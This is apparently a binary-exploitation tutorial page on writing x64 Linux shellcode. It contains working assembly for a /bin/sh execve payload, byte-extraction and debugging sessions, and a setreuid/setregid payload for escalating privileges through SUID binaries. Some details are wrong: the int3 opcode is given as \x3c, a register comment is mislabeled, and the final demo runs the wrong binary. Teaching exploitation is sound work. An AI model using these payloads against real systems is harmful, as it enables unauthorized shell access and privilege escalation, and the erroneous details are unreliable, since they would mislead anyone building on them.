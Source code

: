 ```yaml
---
description: Writing and debugging your own shellcode
---
```


# Shellcode

When you have found a buffer overflow or any other way to jump to your input a common exploitation method is to write shellcode. With shellcode, you write data in the form of assembly instructions so that any code you have written will be executed when the program jumps to it.&#x20;

Shellcode is called "**shell**code" because you often write code that gives you an interactive shell. This can be done using the `execve("/bin/sh", NULL, NULL)` syscall to spawn an `sh` shell with no arguments or environment variables. There are existing shellcodes people have created for various different architectures and use cases, like the following database:

{% embed url="http://shell-storm.org/shellcode/index.html" %}
Big collection of shellcodes make by different people, for many architectures and use cases
{% endembed %}

While these are often enough, in some cases, you will need to write your own custom shellcode that does exactly what you need. There are many different ways of writing shellcode because it simply involves extracting the bytes as machine code from an existing program.&#x20;

To have the most control and shortest shellcode, it is recommended to write them in **assembly**, but in theory, you could just as well write it in C and later extract the assembly from it after compiling.&#x20;

## Simple example

We can write a simple `execve(pathname, argv[], envp[])` syscall like explained above in assembly. We first need to know the correct [syscall number](https://x64.syscall.sh/), to choose `execve`. Then set the arguments, which in x64 are in order `rdi, rsi, rdx`. The first is the most important, as the file to execute. This will be `"/bin/sh"` in our case, but as it is a `char*` type it need to be a **pointer** to that string. Since we control the shellcode, we can simply include that string in it and reference it relatively from the `rip` register as that will be in the middle of our shellcode as we are executing it. The whole thing looks something like this:

{% code title="shellcode.s" %}
```asmatmel
.global _start
_start:
.intel_syntax noprefix
        mov rax, 59           ; choose which syscall: execve (see x64.syscall.sh)
        lea rdi, [rip+binsh]  ; set a *pointer* to the /bin/sh string as 1st argument
        mov rsi, 0            ; set 2nd argument (argv[]) to NULL
        mov rdx, 0            ; set 3rd argument (envp[]) to NULL
        syscall               ; perform the syscall we set up
binsh:
        .string "/bin/sh"     ; include the string we referenced
```
{% endcode %}

Now that we have the assembly code, we'll need to compile it, and later extract the raw shellcode bytes from that compiled binary. First compile it to a runnable ELF file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ gcc -nostdlib -static shellcode.s -o shellcode-elf
</strong>$ ./shellcode-elf
</code></pre>

This will create a `shellcode-elf` file that you can run to test out your shellcode, and debug it if something goes wrong. If it seems to work correctly, like giving you a shell in this example, you can extract the `.text` section which contains the code we wrote, but this time as raw bytes from the binary:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ objcopy --dump-section .text=shellcode-raw shellcode-elf
</strong>$ hd shellcode-raw  # hexdump
00000000  48 c7 c0 3b 00 00 00 48  8d 3d 10 00 00 00 48 c7  |H..;...H.=....H.|
00000010  c6 00 00 00 00 48 c7 c2  00 00 00 00 0f 05 2f 62  |.....H......../b|
00000020  69 6e 2f 73 68 00                                 |in/sh.|
00000026
</code></pre>

After that, you will have your shellcode in a `shellcode-raw` file that you can include in your payload.&#x20;

## Debugging shellcode

When the shellcode you created doesn't seem to work correctly, you need to debug it. It's probably some simple mistake because assembly is hard, but you just need to understand what is happening. To get a high-level overview of the **syscalls** you are executing, running `strace` is a good option. It runs your program and at the same time will print which syscalls are executed and their return values. For example:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ strace ./shellcode-elf
</strong>execve("./shellcode-elf", ["./shellcode-elf"], 0x7ffdf115bb40 /* 41 vars */) = 0
execve("/bin/wrong", NULL, NULL)        = -1 ENOENT (No such file or directory)
--- SIGILL {si_signo=SIGILL, si_code=ILL_ILLOPN, si_addr=0x40101e} ---
+++ killed by SIGILL +++
Illegal instruction
</code></pre>

This method is more useful if you have a combination of multiple syscalls where you want to see the intermediate results. For more detailed analysis like stepping through individual instructions, you can use a real debugger like GDB. Simply run the shellcode in GDB and you can break at the first instruction using the `starti` command. Here we can examine the next instructions, the state of registers, look at the stack, and much more.&#x20;

<pre class="language-asmatmel"><code class="lang-asmatmel"><strong>(gdb) starti
</strong>Program stopped.
0x0000000000401000 in _start ()
<strong>(gdb) x/5i $rip
</strong>=> 0x401000 &#x3C;_start>:      mov    $0x3b,%rax
   0x401007 &#x3C;_start+7>:    lea    0x10(%rip),%rdi        # 0x40101e &#x3C;binsh>
   0x40100e &#x3C;_start+14>:   mov    $0x0,%rsi
   0x401015 &#x3C;_start+21>:   mov    $0x0,%rdx
   0x40101c &#x3C;_start+28>:   syscall
<strong>(gdb) ni
</strong>0x0000000000401007 in _start ()
<strong>(gdb) x/5i $rip
</strong>=> 0x401007 &#x3C;_start+7>:    lea    0x10(%rip),%rdi        # 0x40101e &#x3C;binsh>
   0x40100e &#x3C;_start+14>:   mov    $0x0,%rsi
   0x401015 &#x3C;_start+21>:   mov    $0x0,%rdx
   0x40101c &#x3C;_start+28>:   syscall
   0x40101e &#x3C;binsh>:       (bad)
</code></pre>

In case your shellcode works **alone**, but not **inside your exploit**, you can also add a debugger to the exploited binary to step through everything in a different context, which might reveal differences. An easy way to set a breakpoint at the start of your payload is to include the `int3` instruction, which triggers a trace/breakpoint trap in any debugger. You can manually add the `\x3c` byte it translates to, or simply include the `int3` in your assembly source code before compiling (see [this video](https://www.youtube.com/watch?v=re4teYmSoXA\&pp=ygUgZGVidWdnaW5nIHNoZWxsY29kZSBsaXZlb3ZlcmZsb3c%3D) for a full explanation):

<pre class="language-asmatmel"><code class="lang-asmatmel"><strong>(gdb) run
</strong>Program received signal SIGTRAP, Trace/breakpoint trap.
0x0000000000401001 in _start ()
<strong>(gdb) x/5i $rip
</strong>=> 0x401001 &#x3C;_start+1>:    mov    $0x3b,%rax
   0x401008 &#x3C;_start+8>:    lea    0x10(%rip),%rdi        # 0x40101f &#x3C;binsh>
   0x40100f &#x3C;_start+15>:   mov    $0x0,%rsi
   0x401016 &#x3C;_start+22>:   mov    $0x0,%rdx
   0x40101d &#x3C;_start+29>:   syscall
</code></pre>

## Exploiting SUID binaries

While the shellcode above gives you an interactive `sh` shell, you might find yourself requiring something more. If you are exploiting a SUID binary where your privileges are elevated, often the goal is to become that user, instead of only spawning a shell as yourself. By default, spawning an `execve` shell as above using a SUID binary will **not** give you the permissions of that user, but instead, take yours. Look at the following example:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>root@machine $ chown root:root shellcode-elf
</strong><strong>root@machine $ chmod +s shellcode-elf
</strong><strong>user@machine $ ls -l shellcode-elf
</strong>-rwsr-sr-x 1 root root 4784 May 28 11:11 shellcode-elf
<strong>user@machine $ ./shellcode-elf
</strong>$ id
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

This can be unintuitive because the program should execute as `root` because of the `s` bit we set in the permissions. However, when we execute the shellcode we are still the same low-privilege `user`. This is because the setuid bit is only **allowing** the program to **elevate** its permissions. We just have to perform this elevation still using the `setreuid` (user) and `setregid` (group) syscalls to take over this user. Both of these syscalls take in two arguments as the "real" and "effective" IDs. We can hardcode all these to 0 to try and elevate to root if the SUID binary is executed as root, but in some cases, it will be owned by a different user or group ID.&#x20;

To make a generic method for this, we can request the current **effective** IDs and set the **real** IDs to that value. This will basically be the following two syscalls:

```c
setreuid(geteuid(), geteuid());
setregid(getegid(), getegid());
```

It will set both the user and group to the executing user allowing you to elevate from any SUID binary to **any user**, not just root. In assembly, these syscalls would look like this:

{% code title="shellcode-suid.s" %}
```asmatmel
.global _start
_start:
.intel_syntax noprefix
geteuid:
        mov rax, 107
        syscall
setreuid:
        mov rdi, rax  ; result from geteuid()
        mov rsi, rax  ; result from geteuid()
        mov rax, 113
        syscall       ; setreuid(geteuid(), geteuid())
getegid:
        mov rax, 108
        syscall
setregid:
        mov rdi, rax  ; result from getegid()
        mov rsi, rax  ; result from geteuid()
        mov rax, 114
        syscall       ; setregid(getegid(), getegid()
execve:
        mov rax, 59
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0
        syscall       ; execute "/bin/sh" now that UID and GID are set
binsh:
        .string "/bin/sh"
```
{% endcode %}

Compiling this shellcode instead, we can see the permissions are correctly transferred over:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>admin@machine $ gcc -nostdlib -static shellcode-suid.s -o shellcode-suid-elf
</strong><strong>admin@machine $ chmod +s shellcode-suid-elf
</strong><strong>user@machine $ id
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
<strong>user@machine $ ./shellcode-elf
</strong>$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin),1001(user)
</code></pre>
